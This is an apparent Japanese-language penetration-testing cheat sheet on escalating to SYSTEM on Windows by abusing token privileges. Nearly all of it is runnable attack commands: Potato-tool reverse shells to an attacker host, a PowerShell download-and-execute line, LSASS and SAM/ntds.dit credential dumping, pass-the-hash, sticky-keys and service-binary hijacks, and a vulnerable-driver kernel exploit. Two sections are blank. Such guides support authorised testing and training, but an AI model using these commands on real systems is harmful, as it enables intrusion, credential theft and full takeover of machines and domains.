


## TL;DR

Windowsターゲットでシェルを取得した後、`whoami /priv`を実行してトークン特権を一覧表示する。**特定の有効化された特権は、SYSTEMへの直接的なパスとなる。** 本ガイドでは、悪用可能なすべての特権、それを悪用するツール、ステップバイステップの攻撃手順を解説する。

**クイックリファレンス — 悪用可能な特権：**

| 特権 | 影響 | 主要ツール | 難易度 |
|---|---|---|---|
| `SeImpersonatePrivilege` | SYSTEM | Potatoファミリー | 簡単 |
| `SeAssignPrimaryTokenPrivilege` | SYSTEM | Potatoファミリー | 簡単 |
| `SeBackupPrivilege` | 任意ファイル読取→SAM/SYSTEMダンプ | reg save / diskshadow | 中 |
| `SeRestorePrivilege` | 任意ファイル書込→DLLハイジャック | robocopy / 手動 | 中 |
| `SeDebugPrivilege` | SYSTEM | procdump / migrate | 簡単 |
| `SeTakeOwnershipPrivilege` | 任意ファイル/キーの所有→変更 | takeown + icacls | 中 |
| `SeLoadDriverPrivilege` | カーネルコード実行→SYSTEM | Capcom.sys | 難 |
| `SeManageVolumePrivilege` | 任意ファイル書込→DLLハイジャック | 武器化エクスプロイト | 中 |
| `SeMachineAccountPrivilege` | AD攻撃（コンピュータ追加） | Impacket / PowerMAD | 状況依存 |

---

## whoami /priv の出力を読む

```cmd
whoami /priv
```

```
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token              Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process         Disabled
SeShutdownPrivilege           Shut down the system                       Disabled
SeImpersonatePrivilege        Impersonate a client after authentication  Enabled
SeCreateGlobalPrivilege       Create global objects                      Enabled
```

### 重要な概念

- **Enabled（有効）**: 即座に使用可能
- **Disabled（無効）**: 存在するが、まずプログラム的に有効化する必要がある（ほとんどのツールは自動的にこれを処理する）
- 特権が**一覧に存在する**こと自体（Disabledでも）、そのアカウントがその特権を持っていることを意味する — `EnableAllTokenPrivs.ps1`のようなツールで無効な特権を有効化できる

```powershell
# すべての無効な特権を有効化（必要な場合）
Import-Module .\EnableAllTokenPrivs.ps1
# 参照: https://github.com/fashionproof/EnableAllTokenPrivs
```

### どのアカウントがどの特権を持つか？

| アカウント / コンテキスト | 主要な特権 |
|---|---|
| `NT AUTHORITY\NETWORK SERVICE` | `SeImpersonate`, `SeAssignPrimaryToken`, `SeChangeNotify` |
| `NT AUTHORITY\LOCAL SERVICE` | `SeImpersonate`, `SeAssignPrimaryToken`, `SeChangeNotify` |
| IIS AppPool（`IIS APPPOOL\DefaultAppPool`） | `SeImpersonate`, `SeAssignPrimaryToken` |
| MSSQLサービス（`NT Service\MSSQLSERVER`） | `SeImpersonate`, `SeAssignPrimaryToken` |
| `NT AUTHORITY\SYSTEM` | すべての特権 |
| ローカル管理者 | `SeDebug`, `SeBackup`, `SeRestore`, `SeTakeOwnership`, `SeLoadDriver`等 |

---

## 1. SeImpersonatePrivilege → SYSTEM

**最も頻繁に悪用される特権。** サービスアカウント（IIS、MSSQL等）で見つかる。

### 仕組み

`SeImpersonatePrivilege`は、プロセスが別のプロセスのトークンのセキュリティコンテキストを偽装することを許可する。"Potato"ファミリーのエクスプロイトは、SYSTEMレベルのプロセスを制御された名前付きパイプに認証させるよう仕向け、そのSYSTEMトークンを偽装して新しいプロセスを生成する。

### ツール比較

| ツール | OS対応 | アーキテクチャ | 名前付きパイプ / 手法 | 備考 |
|---|---|---|---|---|
| **JuicyPotato** | Win7, Win8, Server 2008/2012/2016 | x86, x64 | COM/DCOM CLSID悪用 | **Win10 1809+ / Server 2019+では動作しない** |
| **PrintSpoofer** | Win10全バージョン, Server 2016/2019/2022 | x64 | Spooler名前付きパイプ偽装 | シンプルで信頼性が高い |
| **RoguePotato** | Win10 1803+, Server 2019+ | x64 | 不正OXID Resolver | 攻撃者制御のマシンがOXIDに必要 |
| **SweetPotato** | Win7–Win11, Server 2008–2022 | x86, x64 | 複数手法（自動選択） | 複数の技術を統合 |
| **GodPotato** | Win8–Win11, Server 2012–2022 | x64 | DCOM RPCSS悪用 | モダンWindowsで非常に信頼性が高い |
| **SharpEfsPotato** | Win10+, Server 2016+ | x64 | EfsRpc名前付きパイプ | 良い代替手段 |
| **EfsPotato** | Win10+, Server 2016+ | x64 | EFS + 名前付きパイプ | コンパイル済みC |
| **CoercedPotato** | Win10+, Server 2019+ | x64 | 複数の強制手法 | 最新の技術 |

### JuicyPotato（Win7 / Win8 / Server 2008-2016）

```cmd
:: 基本的な使用法 — SYSTEM cmdを生成
JuicyPotato.exe -l 1337 -p C:\Windows\System32\cmd.exe -t * -c {F87B28F1-DA9A-4F35-8EC0-800EFCF26B83}

:: SYSTEMとしてリバースシェルを実行
JuicyPotato.exe -l 1337 -p C:\Temp\nc.exe -a "<KALI_IP> 4444 -e cmd.exe" -t * -c {F87B28F1-DA9A-4F35-8EC0-800EFCF26B83}

:: カスタムペイロードを実行
JuicyPotato.exe -l 1337 -p C:\Temp\shell.exe -t *
```

> **CLSID注意：** OSバージョンによって異なるCLSIDが必要。有効なものは以下で確認：
> [https://ohpe.it/juicy-potato/CLSID/](https://ohpe.it/juicy-potato/CLSID/)

**よく使われるCLSID：**

| OS | CLSID |
|---|---|
| Windows 7 | `{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}` |
| Windows 8 | `{C49E32C6-BC8B-11d2-85D4-00105A1F8304}` |
| Server 2012 | `{8BC3F05E-D86B-11D0-A075-00C04FB68820}` |
| Server 2016 | `{F87B28F1-DA9A-4F35-8EC0-800EFCF26B83}` |

### PrintSpoofer（Win10 / Server 2016-2022）

```cmd
:: インタラクティブSYSTEMシェルを生成
PrintSpoofer64.exe -i -c cmd.exe

:: SYSTEMとしてリバースシェルを実行
PrintSpoofer64.exe -c "C:\Temp\nc.exe <KALI_IP> 4444 -e cmd.exe"

:: SYSTEMとしてPowerShellを実行
PrintSpoofer64.exe -i -c powershell.exe
```

### GodPotato（Win8–Win11 / Server 2012-2022）

```cmd
:: SYSTEMとしてコマンドを実行
GodPotato.exe -cmd "cmd /c whoami"

:: リバースシェル
GodPotato.exe -cmd "C:\Temp\nc.exe <KALI_IP> 4444 -e cmd.exe"

:: PowerShellリバースシェル
GodPotato.exe -cmd "powershell -nop -ep bypass -c IEX(New-Object Net.WebClient).DownloadString('http://<KALI_IP>/shell.ps1')"
```

### SweetPotato（最も広い互換性）

```cmd
:: 最適な技術を自動選択
SweetPotato.exe -e EfsRpc -p C:\Temp\nc.exe -a "<KALI_IP> 4444 -e cmd.exe"

:: 技術を指定
SweetPotato.exe -e WinRM -p C:\Windows\System32\cmd.exe -a "/c C:\Temp\nc.exe <KALI_IP> 4444 -e cmd.exe"
```

### RoguePotato（Win10 1803+ / Server 2019+）

```bash
# 攻撃者側：OXIDリゾルバリダイレクトを開始（ポート135で）
socat tcp-listen:135,reuseaddr,fork tcp:<TARGET_IP>:9999
```

```cmd
:: ターゲット側：実行
RoguePotato.exe -r <KALI_IP> -l 9999 -e "C:\Temp\nc.exe <KALI_IP> 4444 -e cmd.exe"
```

### 判断 — どのPotatoを使うか？



---

## 2. SeAssignPrimaryTokenPrivilege → SYSTEM

`SeImpersonatePrivilege`と一緒に付与されることが多い。子プロセスに代替トークンを割り当てることを許可する。

**悪用方法：SeImpersonatePrivilegeと同じ** — すべてのPotatoファミリーツールが動作する。

```cmd
:: 同じツールが適用可能
JuicyPotato.exe -l 1337 -p C:\Temp\shell.exe -t * -c {CLSID}
PrintSpoofer64.exe -i -c cmd.exe
GodPotato.exe -cmd "cmd /c whoami"
```

---

## 3. SeDebugPrivilege → SYSTEM

**SYSTEMプロセスを含む任意のプロセスをデバッグ可能。** ローカル管理者に一般的。

### 方法1：SYSTEMプロセスへのマイグレーション（Meterpreter）

```
meterpreter> ps
meterpreter> migrate <WINLOGON_PID>
meterpreter> getuid
# NT AUTHORITY\SYSTEM
```

### 方法2：LSASSダンプ（資格情報抽出）

```cmd
:: procdump（Sysinternals — Microsoft署名済み、検出されにくい）
procdump64.exe -accepteula -ma lsass.exe lsass.dmp

:: タスクマネージャー：lsass.exeを右クリック → ダンプファイルの作成

:: comsvcs.dll MiniDump（組み込み、ツール不要）
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump <LSASS_PID> C:\Temp\lsass.dmp full
```

```bash
# 攻撃者側：mimikatzまたはpypykatzでパース
pypykatz lsa minidump lsass.dmp
```

### 方法3：PowerShellによる直接トークン窃取

```powershell
# psgetsys.ps1 — winlogonトークンをコピーしてSYSTEMシェルを生成
# https://github.com/decoder-it/psgetsystem
Import-Module .\psgetsys.ps1
[MyProcess]::CreateProcessFromParent(<SYSTEM_PID>, "C:\Windows\System32\cmd.exe", "")
```

### 方法4：プロセスインジェクション

```cmd
:: msfvenomシェルコード + カスタムインジェクタを使用
:: SYSTEMプロセスにインジェクト（例：winlogon.exe、lsass.exe）

:: SYSTEMプロセスを検索
tasklist /FI "USERNAME eq NT AUTHORITY\SYSTEM"
```

### SeDebugPrivilege用ツール

| ツール | 方法 | 備考 |
|---|---|---|
| **Meterpreter `migrate`** | プロセスマイグレーション | 最も簡単、Meterpreterセッション必須 |
| **procdump64.exe** | LSASSダンプ | Microsoft署名済み、検出されにくい |
| **comsvcs.dll** | LSASSダンプ | 組み込み、アップロード不要 |
| **pypykatz** | LSASSオフラインパース | Python、攻撃者側 |
| **mimikatz** | 直接資格情報抽出 | `privilege::debug`→`sekurlsa::logonpasswords` |
| **psgetsystem** | トークンコピー | PowerShell、SYSTEMとしてプロセス作成 |

---

## 4. SeBackupPrivilege → 任意ファイル読取 → SYSTEM

**システム上の任意のファイルを読取可能**、DACL/ACLをバイパス。SAM/SYSTEMレジストリハイブまたは機密ファイルの抽出に使用。

### 方法1：レジストリハイブダンプ（SAM + SYSTEM + SECURITY）

```cmd
:: レジストリハイブをダンプ
reg save HKLM\SAM C:\Temp\SAM
reg save HKLM\SYSTEM C:\Temp\SYSTEM
reg save HKLM\SECURITY C:\Temp\SECURITY
```

```bash
# 攻撃者側：ハッシュを抽出
impacket-secretsdump -sam SAM -system SYSTEM -security SECURITY LOCAL

# クラックまたはPass-the-Hash
crackmapexec smb <TARGET_IP> -u Administrator -H <NTLM_HASH>
impacket-psexec Administrator@<TARGET_IP> -hashes :<NTLM_HASH>
```

### 方法2：保護されたファイルのコピー（robocopy /B）

```cmd
:: /Bフラグ = バックアップモード（SeBackupPrivilegeを使用）
robocopy /B C:\Users\Administrator\Desktop C:\Temp\ flag.txt

:: ドメインコントローラーからntds.ditをコピー
robocopy /B C:\Windows\NTDS C:\Temp\ ntds.dit
```

### 方法3：DiskShadow + robocopy（ドメインコントローラー — ntds.dit）

```cmd
:: シャドウコピースクリプトを作成
echo set context persistent nowriters > C:\Temp\shadow.txt
echo add volume C: alias mydrive >> C:\Temp\shadow.txt
echo create >> C:\Temp\shadow.txt
echo expose %mydrive% Z: >> C:\Temp\shadow.txt
echo exec >> C:\Temp\shadow.txt

:: 実行
diskshadow /s C:\Temp\shadow.txt

:: シャドウコピーからntds.ditをコピー
robocopy /B Z:\Windows\NTDS C:\Temp\ ntds.dit

:: SYSTEMハイブも必要
reg save HKLM\SYSTEM C:\Temp\SYSTEM
```

```bash
# 攻撃者側：全ドメインハッシュを抽出
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL
```

### 方法4：BackupOperatorToDA（自動化）

```powershell
# https://github.com/mpgn/BackupOperatorToDA
Import-Module .\BackupOperatorToDA.ps1
Invoke-BackupOperatorToDA -TargetDC dc01.domain.local -OutputPath C:\Temp\
```

### SeBackupPrivilege用ツール

| ツール | 用途 | 備考 |
|---|---|---|
| **reg save** | SAM/SYSTEM/SECURITYハイブダンプ | 組み込み |
| **robocopy /B** | ACLをバイパスして任意のファイルをコピー | 組み込み |
| **diskshadow** | ボリュームシャドウコピー（ntds.dit） | 組み込み、Server OSのみ |
| **impacket-secretsdump** | ダンプからハッシュを抽出 | 攻撃者側 |
| **BackupOperatorToDA** | DC抽出の自動化 | PowerShell |
| **wbadmin** | Windowsバックアップユーティリティ | 組み込み |

---

## 5. SeRestorePrivilege → 任意ファイル書込 → SYSTEM

**システム上の任意のファイルに書込可能**、DACL/ACLをバイパス。システムバイナリの上書きやDLLハイジャックで昇格。

### 方法1：DLLハイジャック — サービスバイナリ置換

```cmd
:: 1. SYSTEMとして実行中のサービスで、書込可能または置換可能なバイナリを持つものを探す
sc query state= all
sc qc <SERVICE_NAME>

:: 2. robocopy /B を使用（バックアップモード — SeRestorePrivilegeを書込にも使用）
:: サービスバイナリを悪意のあるペイロードに置換
robocopy /B C:\Temp\ "C:\Program Files\VulnService\" malicious.exe

:: 3. サービスを再起動
sc stop <SERVICE_NAME>
sc start <SERVICE_NAME>
```

### 方法2：utilman.exe または sethc.exe の上書き

```cmd
:: utilman.exeをcmd.exeに置換（スティッキーキー攻撃）
robocopy /B C:\Windows\System32 C:\Temp utilman.exe
robocopy /B C:\Temp C:\Windows\System32 cmd.exe /A-:R
ren C:\Windows\System32\cmd.exe utilman.exe

:: ロック画面で：Win+U → SYSTEM cmd.exe
```

### 方法3：レジストリキーの変更

```powershell
# SeRestorePrivilegeにより保護されたレジストリキーへの書込が可能
# サービスのImagePathを悪意のあるバイナリに変更
reg add "HKLM\SYSTEM\CurrentControlSet\Services\<SERVICE>" /v ImagePath /t REG_EXPAND_SZ /d "C:\Temp\shell.exe" /f
```

---

## 6. SeTakeOwnershipPrivilege → 任意オブジェクトの所有 → SYSTEM

**任意のセキュリティ保護可能なオブジェクト**（ファイル、レジストリキー、ADオブジェクト）の所有権を取得可能。

### 方法1：システムファイルの所有権取得

```cmd
:: 保護されたファイルの所有権を取得
takeown /F "C:\Windows\System32\config\SAM"

:: 自分にフルコントロールを付与
icacls "C:\Windows\System32\config\SAM" /grant <USERNAME>:F

:: ファイルを読み取り
copy "C:\Windows\System32\config\SAM" C:\Temp\SAM
```

### 方法2：サービスレジストリキーの所有権取得

```cmd
:: 1. SYSTEMとして実行中のサービスを探す
sc qc <SERVICE_NAME>

:: 2. そのレジストリキーの所有権を取得
takeown /F "HKLM\SYSTEM\CurrentControlSet\Services\<SERVICE>" /R

:: またはPowerShell経由
$key = [Microsoft.Win32.Registry]::LocalMachine.OpenSubKey("SYSTEM\CurrentControlSet\Services\<SERVICE>", 'ReadWriteSubTree', 'TakeOwnership')
$acl = $key.GetAccessControl()
$acl.SetOwner([System.Security.Principal.NTAccount]"<DOMAIN\USER>")
$key.SetAccessControl($acl)

:: 3. ImagePathを変更
reg add "HKLM\SYSTEM\CurrentControlSet\Services\<SERVICE>" /v ImagePath /t REG_EXPAND_SZ /d "C:\Temp\shell.exe" /f

:: 4. サービスを再起動
sc stop <SERVICE_NAME>
sc start <SERVICE_NAME>
```

### 方法3：機密ファイルの所有権取得

```cmd
:: フラグ/資格情報ファイル
takeown /F "C:\Users\Administrator\Desktop\flag.txt"
icacls "C:\Users\Administrator\Desktop\flag.txt" /grant <USERNAME>:F
type "C:\Users\Administrator\Desktop\flag.txt"
```

---

## 7. SeLoadDriverPrivilege → カーネルコード実行 → SYSTEM

**カーネルドライバーのロードを許可。** 脆弱な署名済みドライバーをロードし、カーネルレベルのコード実行を悪用する。

### 方法：Capcom.sysエクスプロイト

```
1. Capcom.sys（脆弱な署名済みドライバー）をアップロード
2. レジストリ + NtLoadDriver経由でドライバーをロード
3. CapcomのIOCTL経由でカーネルシェルコードを実行
4. SYSTEMシェルを生成
```

**EoPLoadDriver + ExploitCapcomの使用：**

```cmd
:: 1. Capcom.sysドライバーをロード
EoPLoadDriver.exe System\CurrentControlSet\MyDriver C:\Temp\Capcom.sys

:: 2. エクスプロイトでSYSTEMを取得
ExploitCapcom.exe
```

**PowerShell自動化：**

```powershell
# レジストリ経由でドライバーをロード
New-ItemProperty -Path "HKCU:\System\CurrentControlSet\MyDriver" -Name "ImagePath" -Value "\??\C:\Temp\Capcom.sys"
New-ItemProperty -Path "HKCU:\System\CurrentControlSet\MyDriver" -Name "Type" -Value 1

# NtLoadDriverをトリガー
# （カスタムツールまたはコンパイル済みエクスプロイトが必要）
```

### SeLoadDriverPrivilege用ツール

| ツール | 用途 |
|---|---|
| **EoPLoadDriver** | 任意のカーネルドライバーをロード |
| **ExploitCapcom** | Capcom.sysを悪用してコード実行 |
| **Capcom.sys** | 脆弱な署名済みドライバー |
| **NtLoadDriver API** | ドライバーロードの直接APIコール |

> **注意：** この技術は脆弱なドライバーのアップロードが必要。HVCI（Hypervisor-protected Code Integrity）が有効なモダンWindowsでは、脆弱なドライバーのロードがブロックされる可能性がある。

---

## 8. SeManageVolumePrivilege → 任意ファイル書込 → SYSTEM

**ボリュームの管理を許可**、ファイルシステム上の任意のファイルへの書込アクセスを獲得するために悪用可能。

### 方法：武器化されたDLL書込

```cmd
:: 特権を使用してSYSTEMサービスがロードするDLLを上書き
:: https://github.com/CsEnox/SeManageVolumeExploit

:: 1. エクスプロイトを実行して書込アクセスを獲得
SeManageVolumeExploit.exe

:: 2. SYSTEMサービスがロードする正規のDLLを悪意のあるものに上書き
copy /Y C:\Temp\malicious.dll C:\Windows\System32\wbem\tzres.dll

:: 3. DLLをロードするサービスをトリガー
systeminfo
:: （systeminfoがtzres.dllをロード → SYSTEMとしてペイロード実行）
```

### SeManageVolumePrivilege用ツール

| ツール | 用途 |
|---|---|
| **SeManageVolumeExploit** | C:\への書込アクセスを付与 |
| カスタムDLL | SYSTEMサービスにロードされるペイロード |

---

## 9. その他の特権

### SeCreateTokenPrivilege

**任意のトークンを作成。** LSA外では非常に稀。

```
任意の特権/グループを持つトークンの作成を許可。
通常はLSASSのみが保持 — 悪用は理論的。
```

### SeChangeNotifyPrivilege

**トラバースチェックのバイパス。** ほぼすべてのアカウントが保持 — 直接悪用はできないが、ディレクトリトラバーサルが制限されないことを意味する。

### SeIncreaseWorkingSetPrivilege

権限昇格に**直接悪用不可**。

### SeTimeZonePrivilege / SeSystemTimePrivilege

**直接悪用不可**だが、ログ/タイムスタンプの混乱に使用可能。

### SeShutdownPrivilege

**直接悪用不可**だが、再起動を強制可能（ブート時にトリガーする永続化メカニズムと組み合わせて有用）。

---

## 完全な悪用ワークフロー



---

## ツールダウンロードリファレンス

| ツール | URL | 用途 |
|---|---|---|
| JuicyPotato | [https://github.com/ohpe/juicy-potato](https://github.com/ohpe/juicy-potato) | SeImpersonate（レガシーOS） |
| PrintSpoofer | [https://github.com/itm4n/PrintSpoofer](https://github.com/itm4n/PrintSpoofer) | SeImpersonate（Win10+） |
| GodPotato | [https://github.com/BeichenDream/GodPotato](https://github.com/BeichenDream/GodPotato) | SeImpersonate（広範な対応） |
| SweetPotato | [https://github.com/CCob/SweetPotato](https://github.com/CCob/SweetPotato) | SeImpersonate（自動選択） |
| RoguePotato | [https://github.com/antonioCoco/RoguePotato](https://github.com/antonioCoco/RoguePotato) | SeImpersonate（Server 2019+） |
| SharpEfsPotato | [https://github.com/bugch3ck/SharpEfsPotato](https://github.com/bugch3ck/SharpEfsPotato) | SeImpersonate（EFS手法） |
| CoercedPotato | [https://github.com/Prepouce/CoercedPotato](https://github.com/Prepouce/CoercedPotato) | SeImpersonate（最新） |
| procdump | [https://learn.microsoft.com/en-us/sysinternals/downloads/procdump](https://learn.microsoft.com/en-us/sysinternals/downloads/procdump) | SeDebug（LSASSダンプ） |
| pypykatz | [https://github.com/skelsec/pypykatz](https://github.com/skelsec/pypykatz) | LSASSダンプパーサー |
| mimikatz | [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz) | 資格情報抽出 |
| psgetsystem | [https://github.com/decoder-it/psgetsystem](https://github.com/decoder-it/psgetsystem) | SeDebug（トークン窃取） |
| EoPLoadDriver | [https://github.com/TarlogicSecurity/EoPLoadDriver](https://github.com/TarlogicSecurity/EoPLoadDriver) | SeLoadDriver |
| ExploitCapcom | [https://github.com/tandasat/ExploitCapcom](https://github.com/tandasat/ExploitCapcom) | SeLoadDriver（Capcom） |
| SeManageVolumeExploit | [https://github.com/CsEnox/SeManageVolumeExploit](https://github.com/CsEnox/SeManageVolumeExploit) | SeManageVolume |
| BackupOperatorToDA | [https://github.com/mpgn/BackupOperatorToDA](https://github.com/mpgn/BackupOperatorToDA) | SeBackup（AD） |
| EnableAllTokenPrivs | [https://github.com/fashionproof/EnableAllTokenPrivs](https://github.com/fashionproof/EnableAllTokenPrivs) | 無効な特権を有効化 |
| Impacket | [https://github.com/fortra/impacket](https://github.com/fortra/impacket) | ハッシュ抽出 / PtH |

---

## 参考文献

- PayloadsAllTheThings — Windows Privesc: [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
- HackTricks — Windows Token Privileges: [https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens.html](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens.html)
- MITRE ATT&CK T1134 — Access Token Manipulation: [https://attack.mitre.org/techniques/T1134/](https://attack.mitre.org/techniques/T1134/)
- itm4n's PrintSpooferブログ: [https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)
- FoxGlove Security — Hot Potato: [https://foxglovesecurity.com/2016/01/16/hot-potato/](https://foxglovesecurity.com/2016/01/16/hot-potato/)
